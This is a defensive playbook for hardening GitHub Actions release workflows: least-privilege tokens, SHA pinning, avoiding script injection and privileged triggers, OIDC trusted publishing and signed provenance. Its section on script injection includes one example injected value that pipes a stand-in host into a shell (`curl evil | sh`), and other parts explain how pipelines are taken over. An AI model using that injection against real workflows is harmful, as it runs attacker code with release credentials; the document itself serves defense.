

# Playbook: Audit and Harden a GitHub Actions Release Pipeline

> [!summary] Claim:
> A release workflow is a program that holds the keys to your registry, your tags, and your signing identity, and runs code you did not write on every execution.
> Hardening it means shrinking three things: what the token can do (`permissions`), what code can run (SHA-pinned references, no untrusted input in scripts, no privileged trigger running fork code), and which steps can reach which credential (build, attest, and publish in separate jobs, registry access by short-lived OIDC identity instead of a stored token).
> The result is verifiable: the build emits a signed provenance attestation that a consumer checks with `gh attestation verify`, and the release itself is immutable.
> Every control below has a mechanical check, and the lab turns the checks into an offline auditor that fails on the vulnerable workflows and passes on the hardened ones.

The scoring heuristics behind these controls are owned by [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]].
The signing infrastructure behind attestations is owned by [[Sigstore-Keyless-Signing-Cosign-Fulcio-and-Rekor]].
The SLSA level definitions are owned by [[SLSA-Framework-Build-and-Source-Tracks]], and the envelope and predicate formats by [[In-Toto-Layouts-Link-Metadata-and-DSSE-Attestations]].
This playbook owns the procedure that applies them to one concrete release pipeline, in order, with a check after each step.

## Trigger and Symptoms

Activate this playbook when a release pipeline is about to be created, inherited, or audited, or when an incident shows how a pipeline like yours can be taken over.

- A Scorecard run, a `zizmor` run, or a CodeQL alert for Actions reports `Token-Permissions`, `Pinned-Dependencies`, or `Dangerous-Workflow` findings on a repository that publishes artifacts.
- A third-party action you use appears in a security advisory, or a tag you depend on was moved.
  The `tj-actions/changed-files` compromise (CVE-2025-30066) retroactively repointed version tags to one malicious commit between 2025-03-14 and 2025-03-15, and the injected script printed runner secrets into workflow logs (GHSA-mrrh-fwg8-r2c3).
  The incident narrative is owned by [[Case-Study-Codecov-Bash-Uploader-and-TJ-Actions]].
- A release job holds a long-lived registry token (`PYPI_API_TOKEN`, `NPM_TOKEN`, a cloud key) in repository secrets, or a workflow file has no `permissions:` key.
- A workflow triggered by `pull_request_target` or `workflow_run` checks out the pull request head.
- Release artifacts have no signature, no provenance, and no way for a consumer to tell a tag build from a laptop build.
- An organization is rolling out a baseline for hundreds of repositories and needs an ordered checklist with a rollback for each step.

Evidence that a pipeline is already compromised is a different procedure: use [[Respond-to-a-Compromised-Transitive-Dependency]].

## Decision Tree



## Prerequisites

Admin on the repository (or organization owner for fleet settings), a clone with the workflows, and these tools on macOS or Linux:

```bash
command -v gh git python3 actionlint
gh auth status
python3 --version
```

- `gh` 2.105.0 provided `gh attestation verify`, `gh release verify`, and `gh release verify-asset` on the macOS test host (as of 2026-11, macOS).
  The `--signer-workflow`, `--source-ref`, `--cert-oidc-issuer`, and `--deny-self-hosted-runners` flags of `gh attestation verify` were confirmed in its local `--help` and in the CLI manual.
- `actionlint` 1.7.12 parses workflow syntax and expressions and flags untrusted contexts used directly in scripts (as of 2026-11, macOS).
- The lab needs only `python3` and `bash`; it parses YAML with a built-in subset parser, so no `PyYAML` is required.
- Optional and not installed on the test host: `zizmor` (static audits of workflows) and `pinact` (a pinning tool).
  They are named below as production-grade equivalents of the lab tools; `zizmor`'s rule names and autofix legend come from its published audit list, not from a run here.
  `pinact` (`suzuki-shunsuke/pinact`) is, per its README, a CLI that pins GitHub Actions and reusable workflows to commit SHAs, updates them, and verifies version comments; it was not run here.

Permissions you need and what each unlocks:

| You need | To do | Without it |
| :--- | :--- | :--- |
| Repository admin | Actions settings, environments, rulesets, immutable releases | `gh api` calls return 403 or 404 |
| Organization owner | Org-level default token permissions and policies | You can only change the repository |
| Account on the registry | Register a trusted publisher on PyPI or npm | You cannot remove the stored token |

Verification: `gh api repos/OWNER/REPO/actions/permissions` prints a JSON object whose keys include `enabled`, `allowed_actions`, and `sha_pinning_required` (the endpoint and fields are in GitHub's REST API description).
If `sha_pinning_required` is absent your GitHub plan or version predates it, and Step 4 must rely on the auditor and review instead.

## Commands and Numbers to Know

| Item | Platform | Value `(as of 2026-11)` | Why it matters |
| :--- | :--- | :--- | :--- |
| `GITHUB_TOKEN` default in a new personal repository | Both | `contents` and `packages` read | A new organization repository inherits the organization setting instead. |
| `permissions` value forms | Both | `read`, `write`, `none` per scope; `read-all`, `write-all`, `{}` | If any scope is listed, every unlisted scope becomes `none`. |
| `id-token` scope values | Both | `write` or `none` only | There is no `read`; the scope exists only to mint the OIDC token. |
| `pull_request_target` token | Both | Read and write on the base repository, even from a fork | The trigger that most often turns a fork pull request into a compromise. |
| Fork `pull_request` token | Both | Write scopes adjusted to read | Unless the admin enabled "Send write tokens to workflows from pull requests". |
| Dependabot default cooldown for version updates | Both | 3 days, not applied to security updates | A new release is not proposed for 3 days; `zizmor` recommends 7. |
| Dependabot `cooldown` keys | Both | `default-days`, `semver-major-days`, `semver-minor-days`, `semver-patch-days`, `include`, `exclude` (150 entries max each) | Per-ecosystem delay between a release and your update PR. |
| Environment required reviewers | Both | Up to 6 users or teams, one approval suffices | Gate on the job that holds the publish credential. |
| Environment wait timer | Both | 1 to 43,200 minutes (30 days) in the docs; the REST schema accepts 0 to 43,200, where 0 means no delay | Adds a human-cancellable delay. |
| `actions/attest` subject limit | Both | 1,024 subjects, predicate at most 16 MB | Large release matrices need several attest steps. |
| `upload-artifact` retention default | Both | 90 days, settable from 1 to 90 unless the repository setting changes the maximum | Artifacts of a release run are an exfiltration surface; keep them short. |
| `upload-artifact` artifact mutability | Both | Immutable since v4; same-name `overwrite: true` gives a new ID | The build-to-attest handoff cannot be edited in place between jobs. |
| `download-artifact` `digest-mismatch` | Both | `error` by default; also `ignore`, `info`, `warn` | A digest mismatch fails the download unless you weaken it. |
| `gh attestation verify` default predicate | Both | `https://slsa.dev/provenance/v1` | Other predicate types need `--predicate-type`. |
| `gh attestation verify` fetch limit | Both | `--limit 30` attestations | A subject with more attestations than that is only partly checked. |
| Artifact attestations plan limits | Both | Public repositories on all current plans (not legacy Bronze, Silver, or Gold); private and internal need GitHub Enterprise Cloud; not supported on GitHub Enterprise Server | Decides whether Step 7 is available to you at all. |
| `slsa-github-generator` status | Both | README states it is no longer actively maintained; last release v2.1.0 (2025-02-24) | New pipelines should use `actions/attest`. |
| Latest `actions/attest` release | Both | v4.2.2, published 2026-08-04, marked immutable by the API | An immutable release makes even the tag stable. |
| Latest `actions/checkout` release | Both | v7.0.1, published 2026-07-20, not marked immutable | Its tags can still move, so SHA-pin it. |
| Scorecard `Signed-Releases` scoring | Both | 8 for a signature file on each release, 10 with an `*.intoto.jsonl` provenance file | Scorecard checks file names, not signatures. |
| Scorecard `Token-Permissions` scoring | Both | Full score needs read-only top level plus job-level writes; 1 point off if every job sets permissions but the top level does not | The top-level `{}` is what protects the job you add next year. |

## How the Pipeline Gets Taken Over: the Mechanisms the Steps Remove

Each control exists because of a specific mechanism.
Knowing the mechanism is what lets you judge a case the checklist does not cover.

### The token is an ambient credential

Every job gets a `GITHUB_TOKEN`.
An action can read it through the `github.token` context even when the workflow never passes it, so the only limit on what a compromised action can do with it is the `permissions` map.
The effective permission is computed in order: the enterprise, organization, or repository default; then the workflow-level `permissions`; then the job-level `permissions`; then, for a fork `pull_request` run, write scopes are lowered to read.
When any scope is named in a `permissions` map, all unnamed scopes become `none`, and `permissions: {}` sets them all to `none`.
GitHub's "How permissions are calculated for a workflow job" says only that permissions are adjusted "first at the workflow level and then at the job level", and its `permissions` reference describes a job-level map as modifying the defaults without stating whether it replaces or merges with the workflow-level map, so this note takes no position on that and relies on neither reading.
The hardened workflow sidesteps the question by using `permissions: {}` at the top, so both readings give the same result for every job.

### A tag is a movable pointer, a commit SHA is a content address

`uses: owner/repo@v4` is resolved at run time to whatever commit the tag points to then.
A maintainer, or anyone holding the maintainer's credentials, can repoint it, which is exactly what happened to `tj-actions/changed-files` in March 2025.
A full-length commit SHA is the hash of the commit object, so changing the content changes the name; GitHub's documentation states that forging a replacement would require a SHA-1 collision on a valid Git object.
A tag can also be annotated: its own object has a hash that differs from the commit it points at.
Measured on 2026-11-21 against github.com:

```text
$ git ls-remote --tags https://github.com/pypa/gh-action-pypi-publish.git refs/tags/v1.14.3 'refs/tags/v1.14.3^{}'
aef6c9b6e301dc803e1bc9133e9ce67ae9b0906b	refs/tags/v1.14.3
7245906fb61fa33a13554f9d5fb856fe61758086	refs/tags/v1.14.3^{}
```

The first line is the tag object, the second (`^{}`, "peeled") is the commit.
Pin the peeled commit.
A lightweight tag such as `actions/checkout` `v7.0.1` prints one line, and that line is already the commit.
GitHub's secure-use guidance says to pin to a full-length commit SHA, so pin the peeled commit and never the tag object's own SHA.

A SHA only proves content, not origin.
GitHub stores a repository and all its forks as one network of commits, so a commit that exists only in a fork can be addressed through the parent's `owner/repo` slug.
`zizmor`'s `impostor-commit` audit documents this and notes that such a pin is visually indistinguishable from a legitimate one.
The defense is to confirm, when a pin is added or changed, that the commit is reachable from a branch or tag of the real repository; GitHub's secure-use guide says the same ("verify it is from the action's repository and not a repository fork").
The lockfile feature in Step 4 enforces that reachability at run time.

### A script body is code, and `${{ }}` is text substitution into it

Before the shell starts, the runner substitutes every `${{ expression }}` in a `run:` body with the expression's string value, then hands the resulting text to the shell.
If the value is `a"; curl evil | sh; "`, it is now part of the script.
The fix is to put the expression in `env:`, where the runner assigns it to an environment variable and the script reads `"$VAR"` as data; GitHub documents exactly this intermediate-variable pattern.
The fields an outsider controls include issue and pull request titles and bodies, comment and review bodies, commit messages and author names, and branch names (`github.head_ref`); GitHub Security Lab published the original list in 2021 and the lab auditor uses it.

### Two triggers run with secrets and a writable token

`pull_request` runs the workflow file from the merge commit of the pull request, so for a fork it runs attacker-controlled workflow text, and GitHub therefore withholds secrets and lowers the token to read.
`pull_request_target` runs the workflow from the base repository's default branch with secrets and a read-write token, which is safe only while nothing from the fork is executed.
The "pwn request" is the moment a workflow checks out the fork's head and then runs anything in it: `make test`, `npm install`, a build script, a config file.
Per GitHub's reference and the `actions/checkout` v7 README, checkout v7 refuses to check out fork pull request code from `pull_request_target` or `workflow_run` unless `allow-unsafe-pr-checkout: true` is set, and on 2026-12-02 GitHub plans to enforce a default policy that blocks `pull_request_target` in public repositories that had the default policy before general availability (it is in evaluate mode as of 2026-11).
The checkout guard covers only fork pull request refs: `git fetch`, `gh pr checkout`, a third-party repository, or a downloaded artifact are not covered.
`workflow_run` has the same shape: treat artifacts uploaded by another workflow as untrusted data, because they may come from a fork.

### Caches cross trust boundaries

A cache entry written by one workflow can be restored by another that shares its scope.
A poisoned cache written from a low-trust workflow and restored in the release workflow runs attacker bytes with release credentials.
GitHub scopes caches by key, version, and branch, with the default branch's cache readable from other branches, and makes `pull_request_target` workflows read-only on the default branch scope.
`zizmor`'s `cache-poisoning` audit names release workflows as the typical sink and warns about setup actions that cache by default.
The npm trusted-publishing example sets `package-manager-cache: false` with the comment "never use caching in release builds".

### Credentials leak through disk and artifacts

By default `actions/checkout` persists a credential for later git commands.
Before v6.0.0 it lived in `.git/config` in the workspace; from v6.0.0 it is stored in a separate file under `$RUNNER_TEMP`.
An artifact upload of the workspace, with hidden files included, could therefore publish a token on the older versions, which `zizmor` calls `artipacked`.
`upload-artifact` ignores hidden files unless `include-hidden-files: true`, and its documentation warns to review hidden files before enabling it.
`persist-credentials: false` removes the credential entirely and costs nothing in a job that does not push.

### One job, one trust level

Everything in a job shares a filesystem, the process environment of the runner, and every credential the job holds.
A build runs dependency code (install scripts, build scripts, test code), so a build step that executes in the same job as `id-token: write` can request an OIDC token and impersonate the workflow's identity.
The PyPI publishing action's README gives this as a "pro tip": set `id-token: write` only in the job that publishes, not globally, and separate building from publishing so that scripts injected into the build or test environment cannot elevate privileges.
SLSA v1.2 Build L3 requires provenance to be unforgeable: secret material used to authenticate the provenance must not be accessible to the environment running the user-defined build steps, and those steps must not be able to inject or alter provenance content (SLSA v1.2 "Provenance is Unforgeable").
Splitting build, attest, and publish into jobs is the workflow-level form of that rule.

## Step-by-Step Execution

Each step ends with a check.
Do not continue past a failed check; go to Failure Modes.
Commands assume the repository root as the working directory and `OWNER/REPO` as the repository.

### Step 0: Inventory and baseline

```bash
ls .github/workflows
actionlint
python3 code/08-Software-Supply-Chain/harden_github_actions/audit_workflows.py .github/workflows
```

The auditor in the lab prints one line per finding with a rule ID, a location such as `jobs.release.steps[5]`, and a severity, and exits 1 if any finding is at or above `--fail-on` (default `high`).
Save the output as the baseline; the finding count is the number the rollout drives to zero.
Fix any `CRITICAL` first, because a pwn request needs no other weakness to be exploited.
If a `CRITICAL` workflow has run on untrusted pull requests, treat every secret it could read as exposed and rotate them after the fix, not before.

**Verification:** the command exits and prints `summary: critical=N, high=N, ...`.
A parse error exits 2 and names the line; the parser rejects anchors, tabs, duplicate keys, and multi-line flow scalars instead of guessing, so rewrite those lines or run `actionlint` and `zizmor`, which parse full YAML.

| Rule | Checks | Same finding in |
| :--- | :--- | :--- |
| GHA001 | Missing top-level `permissions`, `write-all`, top-level write | Scorecard `Token-Permissions`; `zizmor` `excessive-permissions` |
| GHA002 | `uses` not a 40-hex SHA, or a container without a digest | Scorecard `Pinned-Dependencies`; `zizmor` `unpinned-uses` |
| GHA003 | Privileged trigger plus checkout of pull request head | Scorecard `Dangerous-Workflow`; `zizmor` `dangerous-triggers` |
| GHA004 | Untrusted `${{ }}` inside `run` or `github-script` | Scorecard `Dangerous-Workflow`; `zizmor` `template-injection` |
| GHA005 | `actions/checkout` without `persist-credentials: false` | `zizmor` `artipacked` |
| GHA006 | Secrets in workflow or job `env`, `secrets: inherit` | `zizmor` `secrets-inherit`, `overprovisioned-secrets` |
| GHA007 | Publish-class permission plus checkout or build commands in one job | PyPI action README on separate build jobs |
| GHA008 | Cache restore or save in a privileged job | `zizmor` `cache-poisoning` |
| GHA009 | Publishing job without an `environment` | Environment protection rules |
| GHA010 | `include-hidden-files: true`, worse with workspace-wide `path` | `zizmor` `artipacked` |
| GHA011 | Registry publish using a stored secret | `zizmor` `use-trusted-publishing` |
| GHA012 | Release workflow with no attestation, or attest without the two scopes | SLSA Build L2 and L3 |
| GHA013 | Privileged job on a self-hosted runner | GitHub secure-use guidance |
| GHA014 | Privileged trigger present without a PR checkout (review) | `zizmor` `dangerous-triggers` |

The mapping is by intent, not by identical logic.
The lab auditor is a teaching tool with known blind spots listed under Failure Modes; run `zizmor` as well in production.

### Step 1: Set the organization and repository defaults

Make the token read-only by default, forbid workflows from approving pull requests, and require SHA pinning, so a workflow that forgets to say anything is safe.
The endpoints and fields below are from GitHub's REST API description (`PUT /repos/{owner}/{repo}/actions/permissions/workflow` with `default_workflow_permissions` and `can_approve_pull_request_reviews`; `PUT /repos/{owner}/{repo}/actions/permissions` with `sha_pinning_required`); the org-level forms are `/orgs/{org}/actions/permissions/workflow` and `/orgs/{org}/actions/permissions`.

```bash
gh api -X PUT repos/OWNER/REPO/actions/permissions/workflow \
  -f default_workflow_permissions=read -F can_approve_pull_request_reviews=false
gh api -X PUT repos/OWNER/REPO/actions/permissions -F enabled=true -F sha_pinning_required=true
```

`sha_pinning_required` is the policy "Require actions to be pinned to a full-length commit SHA": a workflow that references an action by tag stops running, so do Step 4 first or use an evaluate-mode policy.
The second `PUT` body also takes `enabled` (the only required field in the schema) and `allowed_actions`; the schema does not say what an omitted `allowed_actions` does, so `GET` the object first and send the full current values back together with `sha_pinning_required` (see Failure Modes).

**Verification:**

```bash
gh api repos/OWNER/REPO/actions/permissions/workflow
gh api repos/OWNER/REPO/actions/permissions
```

Expect `"default_workflow_permissions":"read"`, `"can_approve_pull_request_reviews":false`, and `"sha_pinning_required":true`.
Scorecard cannot see the repository setting because no API exposes it to it (its `Token-Permissions` documentation says so), which is why the workflow files must carry their own `permissions`.

### Step 2: Deny everything at the top, grant per job

```yaml
permissions: {}

jobs:
  build:
    permissions:
      contents: read
```

Put `permissions: {}` at workflow level, then give each job exactly the scopes it uses.
For a release these are the usual grants:

| Job role | Scopes | Why |
| :--- | :--- | :--- |
| Build | `contents: read` | Checkout needs it; nothing else |
| Attest | `id-token: write`, `attestations: write` (and `artifact-metadata: write` per the `actions/attest` README) | Mint the Sigstore identity, store the attestation |
| Publish to PyPI or npm | `id-token: write` | OIDC exchange only |
| GitHub release | `contents: write` | Create the release and upload assets |
| Container publish | `packages: write` plus the attest scopes | Push the image |

`id-token: write` does not grant any repository access; it only allows the job to request an OIDC token.
Even so, treat it as a publish-class permission, because the token it mints is the identity registries and cloud accounts trust.
A reusable workflow that attests needs the attestation scopes in both the calling job and the reusable workflow (GitHub's SLSA Build L3 guide).

**Verification:** run the auditor and expect no `GHA001`.
The lab's before and after output is in the Worked Example: `permissions: write-all` on the release job produces a high finding, `permissions: {}` with per-job maps produces none.
The effective token scopes of a real run are not asserted here; the auditor checks the declared maps, and the docs do not describe a log view that proves the computed result.

### Step 3: Remove injection and privileged triggers

Move every untrusted expression out of `run:` and into `env:`:

```yaml
- name: Greet
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "Testing ${PR_TITLE}"
```

Then audit triggers.
Replace `pull_request_target` with `pull_request` whenever the job does not need secrets or a writable token, as the lab's `after/pr-triage.yml` does.
If it must stay, apply GitHub's hardening list: least-privilege token, only the secrets needed, no execution of checked-out pull request code, an ephemeral runner, and expect its cache to be read-only.
Do not set `allow-unsafe-pr-checkout: true` unless the checked-out code is only ever read as data.
For tag-triggered releases, `github.ref_name` is controlled by whoever can push tags; it is not on the untrusted list because tag pushers are trusted, but pass it through `env:` anyway so the rule has no exception.

**Verification:** `actionlint` flags the unsafe interpolation (`"github.event.pull_request.title" is potentially untrusted`, observed on the lab's before fixtures, actionlint 1.7.12), and the lab auditor reports `GHA003`, `GHA004`, and `GHA014`.
Then try the attack yourself on a throwaway pull request whose title is `x"; echo INJECTED #`; the hardened workflow prints the title as text and never executes it.

### Step 4: Pin every action to a full commit SHA

Resolve each reference to the commit and write it with a human-readable comment.
Never type SHAs by hand from a web page; resolve them from the action's own repository:

```bash
git ls-remote --tags https://github.com/actions/checkout.git refs/tags/v7.0.1 'refs/tags/v7.0.1^{}'
git ls-remote https://github.com/pypa/gh-action-pypi-publish.git refs/heads/release/v1
```

Read the last line the first command prints when there are two (the peeled commit).
The second command shows that a "version" such as `release/v1` can be a branch: the PyPI action's README recommends it, and a branch moves with every commit.
The lab's `pin_actions.py` rewrites `uses: owner/repo@ref` to `uses: owner/repo@SHA # version` from an offline map such as `fixtures/pins.json` (resolved on 2026-11-21), reports every reference missing from the map, and exits 2 if there are any.
Production equivalents are `pinact` (see Prerequisites) and `zizmor`'s autofixes for its `unpinned-uses` audit.

Keep the pins moving with Dependabot, which understands the `uses: owner/repo@SHA # version` form and updates the comment when it is on the same line:

```yaml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
    cooldown:
      default-days: 7
```

The `cooldown` block delays version-update PRs for a new release; the documented default without one is 3 days, and it never delays security updates.
A short delay matters because compromises of popular packages are usually withdrawn within hours or days.
Two limits of this setup are documented by GitHub: Dependabot alerts are not created for actions pinned to SHAs, and Dependabot ignores local actions and `docker://` references.
Pin container actions and `container:` images by `@sha256:` digest yourself.

Reusable workflows are references too: `jobs.<id>.uses: org/repo/.github/workflows/x.yml@SHA`.
There is one deliberate exception.
The `slsa-github-generator` workflows must be referenced by a full `@vX.Y.Z` tag, because the SLSA verifier checks the builder's ref and the build fails for a short tag or a hash; the project's README calls this contrary to GitHub's own advice and intentional.
That generator's README now says it is no longer actively maintained and recommends GitHub artifact attestations, which is why Step 7 uses `actions/attest`.

Where it is available to you, use the workflow dependency lockfile instead of, or in addition to, hand-pinning.
GitHub's concept page describes `.github/workflows/actions.lock`, generated by `gh actions-lock` and never edited by hand, which records for each dependency its `ref`, the exact `commit`, and the numeric `owner_id` and `repo_id` of the source repository, covers transitive actions, and rejects a locked commit that is no longer reachable from the recorded branch or tag in the action's own repository (so the impostor-commit trick fails).
It does not cover reusable workflow calls (`jobs.<id>.uses`), input parameters, secrets, or the runner image.
GitHub's docs version the feature for GitHub.com and GitHub Enterprise Cloud only (its feature file notes it is not scheduled for GitHub Enterprise Server), and the "Lock workflow dependencies" how-to labels it a GitHub Enterprise Cloud product (as of 2026-11, Both); the pages fetched do not say whether Free, Pro, and Team plans get it, so check the Actions policies page before planning around it.
The lockfile also satisfies the "Require actions to be pinned to a full-length commit SHA" policy for workflows onboarded to it.

**Verification:**

```bash
grep -rnE 'uses:[[:space:]]+[^./][^@]*@' .github/workflows | grep -vE '@[0-9a-f]{40}([[:space:]]|$)'
```

The command must print nothing except `docker://` lines you pin by digest.
Then run the auditor and expect no `GHA002`.
Finally open one pin on github.com as `https://github.com/OWNER/REPO/commit/SHA` and confirm GitHub shows no "This commit does not belong to any branch on this repository" banner (an impostor-commit check by eye; the `zizmor` `impostor-commit` audit automates it and needs the network).

### Step 5: Split build, attest, and publish into separate jobs

```yaml
jobs:
  build:
    permissions: { contents: read }
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with: { persist-credentials: false }
      - run: python -m build
      - uses: actions/upload-artifact@cf430e030ddbb5b0abf93d22962f4752f3646cd9 # v7.0.2
        with: { name: dist, path: dist/, if-no-files-found: error, retention-days: 7 }
  attest:
    needs: build
    permissions: { id-token: write, attestations: write, artifact-metadata: write }
    steps:
      - uses: actions/download-artifact@9000827ccba6bdab643e8b6fd33ac0654aef8333 # v8.0.2
        with: { name: dist, path: dist/ }
      - uses: actions/attest@1e69f48acb82d1966a394da916b4c1698aa569d6 # v4.2.2
        with: { subject-path: 'dist/*' }
```

The complete file is `fixtures/after/release.yml` in the lab.
The rules that make the split meaningful:

- The build job has no credential beyond a read-only token and runs the only code that executes dependency scripts.
- The attest job runs no repository code: it downloads the artifact, hashes it, and asks Sigstore for a certificate bound to this workflow run.
  The lab's `_is_attest_only` check accepts only `download-artifact` and `attest` steps in such a job.
- The publish jobs run no build commands and hold only their own credential.
- Artifacts from `upload-artifact` v4 and later are immutable, so the build output cannot be edited in place between jobs; `download-artifact` fails a digest mismatch by default (`digest-mismatch: error`).
- Mark the publishing jobs `needs: [build, attest]` so a publish cannot run before the attestation exists.

What the split does not do: it does not make a malicious build output benign.
A compromised dependency can still produce a bad artifact, and the attestation will truthfully say that this workflow built it.
Provenance proves where and how an artifact was built; it does not prove the build was uncompromised.
Reproducible rebuilds, owned by [[Reproducible-Builds-as-a-Security-Control]], are the control that detects it.

**Verification:** the auditor reports no `GHA007`, and a Worked Example mutation (a `python -m build` step inserted into the publish job) makes it report `GHA007`.
In a real run, open the attest job log and confirm it contains no checkout and no build output.

### Step 6: Replace stored registry tokens with an OIDC identity and an environment

Trusted publishing exchanges the job's OIDC token for a short-lived registry credential, so there is no long-lived secret to steal.
The token's `sub` claim for a job that names an environment is `repo:ORG/REPO:environment:NAME`; for a branch it ends in `:ref:refs/heads/BRANCH`, and for a tag in `:ref:refs/tags/TAG`.
The `environment` claim, `job_workflow_ref` (the reusable workflow path), `repository_visibility`, and `runner_environment` are additional claims a relying party can check.
For repositories created after 2026-07-15, or that opted in, GitHub's reference says `sub` embeds the immutable owner and repository IDs (`repo:octo-org@123456/octo-repo@456789:...`), which closes the namespace-recycling hole where a deleted-and-recreated name matched an old trust policy; update trust policies to the format your repository uses.

- PyPI: register the repository, workflow file name, and (the README's example uses one) environment as a trusted publisher on pypi.org, then publish with `pypa/gh-action-pypi-publish` in a job with `id-token: write` and no `username` or `password`.
  The action's README says trusted publishing does not work from inside a reusable workflow at this time; put the publish job in the non-reusable calling workflow.
  It also generates and uploads PyPI digital attestations for all distribution files by default when using trusted publishing; `attestations: false` turns that off.
- npm: trusted publishing needs npm CLI 11.5.1 or newer and Node 22.14.0 or newer, GitHub-hosted runners (self-hosted runners are not currently supported), and `id-token: write`; npm does not validate the configuration when you save it, and the workflow file name must match exactly including `.yml`.
  Provenance statements are generated automatically on this path.
  A newly created npm trusted publisher configuration must complete its first successful publish within 2 days or it expires and must be recreated, so register it only when the first trusted release is ready.
- RubyGems supports trusted publishing as well; `zizmor`'s `use-trusted-publishing` audit lists PyPI, RubyGems, crates.io, pub.dev, npm, and nuget.org (as of 2026-11).
- A registry without OIDC: keep the secret in an environment, never in repository or workflow-level `env`, so the job can read it only after the environment's rules pass.

Protect the environment that holds publishing power:

```bash
gh api -X PUT repos/OWNER/REPO/environments/pypi \
  -F prevent_self_review=true -F wait_timer=0 \
  -F 'deployment_branch_policy[protected_branches]=false' \
  -F 'deployment_branch_policy[custom_branch_policies]=true'
```

The REST body also takes `reviewers` (up to 6 users or teams); add them in the UI if you prefer.
The nested `deployment_branch_policy[...]` fields use `gh api`'s `key[subkey]=value` syntax; they must be passed with `-F`, which converts `true` and `false` to JSON booleans, because `-f` sends them as strings and the schema types both fields as boolean; the schema requires `protected_branches` to be true exactly when `custom_branch_policies` is false.
Then allow deployments only from the tag pattern `v*` with the deployment branch policy endpoint, whose body takes a `name` pattern and a `type` of `branch` or `tag`:

```bash
gh api -X POST repos/OWNER/REPO/environments/pypi/deployment-branch-policies -f name='v*' -f type=tag
```


In the web UI, the option "Allow administrators to bypass configured protection rules" can be unchecked, which makes the gate apply to admins too.
The `environment` name is part of the OIDC `sub`, so a registry trust policy that requires `environment:pypi` cannot be satisfied by a job that skips the environment.

**Verification:** `gh api repos/OWNER/REPO/environments/pypi` lists `protection_rules` and `deployment_branch_policy`.
The auditor reports no `GHA009` or `GHA011`.
Delete the old token from the registry account only after one successful trusted publish, then confirm a run without the `environment` fails to publish.

### Step 7: Emit and verify provenance

`actions/attest` (v4) creates a Sigstore-signed in-toto attestation whose default predicate is SLSA build provenance and uploads it to the repository's attestation store.
`actions/attest-build-provenance` v4 is now only a wrapper over it.
For public repositories GitHub uses the Sigstore public good instance, and the bundle is written to the public transparency log; for private and internal repositories (GitHub Enterprise Cloud) it uses GitHub's own Sigstore instance, which has no transparency log (GitHub Docs, "Artifact attestations").
The mechanics of Fulcio certificates, Rekor entries, and bundles are owned by [[Sigstore-Keyless-Signing-Cosign-Fulcio-and-Rekor]]; the statement and envelope formats by [[In-Toto-Layouts-Link-Metadata-and-DSSE-Attestations]].

GitHub's documentation says attestations alone provide SLSA v1.0 Build L2, and that building inside a reusable workflow, shared across repositories, gives the isolation needed for Build L3.
To implement that shape, move the build and attest steps into a reusable workflow in a central repository and call it from each project, as in the lab's `fixtures/after/release-caller.yml`:

```yaml
jobs:
  build-attest:
    uses: example-org/release-workflows/.github/workflows/build-attest.yml@0123456789abcdef0123456789abcdef01234567
    permissions:
      contents: read
      id-token: write
      attestations: write
      artifact-metadata: write
```

The `example-org/release-workflows` repository and the SHA above are placeholders.
Then verify on the consumer side.
The identity check is the whole point; a bare `--owner` proves only that some workflow in the organization signed it:

```bash
gh attestation verify dist/pkg-1.2.3.tar.gz \
  --owner OWNER \
  --signer-workflow OWNER/release-workflows/.github/workflows/build-attest.yml \
  --source-ref refs/tags/v1.2.3 \
  --deny-self-hosted-runners
```

These flags exist in `gh` 2.105.0 (checked with `--help`).
Per the CLI manual: with a reusable workflow, that workflow is the signer whose identity must be validated, so use `--signer-workflow` or `--signer-repo`; the default predicate type is `https://slsa.dev/provenance/v1` and the default OIDC issuer is `https://token.actions.githubusercontent.com`; and when you verify with `--bundle` or `--bundle-from-oci`, the repository or owner name is compared only with what was recorded at signing time, so a renamed or recreated repository cannot be detected, while fetching from the API (no `--bundle`) can.
Only the certificate fields and the verified timestamps are outside the control of the workflow that produced the attestation; the `statement.predicate` content can be falsified by anyone who controls the workflow's execution context, which is why the signer-workflow pin and the build isolation matter.

I did not run `gh attestation verify` or `actions/attest` for this note: they need a GitHub-hosted run and network access.
Which exact attestation a consumer policy accepts is a design decision; [[Drill-Supply-Chain-Verify-and-Reject-Forged-SLSA-Provenance]] practices rejecting forged ones.

**Verification:** after a tag release, `gh attestation verify` on a downloaded asset exits 0 and prints the verified identity; the same command on a file you modified exits non-zero.
In the lab, the auditor reports no `GHA012`, and deleting the attest job produces `GHA012` (negative control M9).

### Step 8: Make the release itself immutable and protect the tag

Enable immutable releases for the repository or organization (Settings, Releases, "Enable release immutability").
After publication, the release's tag cannot be moved or deleted and its assets cannot be modified or deleted; title, notes, and the pre-release and latest flags remain editable.
Creating an immutable release also generates a release attestation recording the tag, commit SHA, and assets.
GitHub states that the setting applies only to future releases, and that a deleted tag name of an immutable release cannot be reused, even in a recreated repository.
Publish with the order GitHub recommends: create a draft, attach all assets, then publish.

```bash
gh release create "$TAG" dist/* --repo "$GITHUB_REPOSITORY" --verify-tag --draft --generate-notes
gh release edit "$TAG" --repo "$GITHUB_REPOSITORY" --draft=false
```

`--verify-tag`, `--draft`, `--generate-notes`, and `edit --draft=false` were confirmed in the local `gh` 2.105.0 help; the release job in `fixtures/after/release.yml` uses them and passes the tag through `env`.
Consumers verify with `gh release verify TAG` and `gh release verify-asset TAG FILE`; the latter cannot verify the auto-generated source zip or tarball, because those are created on request.

Also restrict who can create release tags.
A tag ruleset with "Restrict creations", "Restrict updates", and "Restrict deletions" on the pattern `v*` means only users with bypass permission can create, move, or delete those tags; "Restrict deletions" is selected by default.
Since a tag push triggers the release workflow, the set of people who can push `v*` tags is the set of people who can start a release, and the `environment` rules from Step 6 are the second gate.

**Verification:** `gh release verify v1.2.3` exits 0 for a published immutable release.
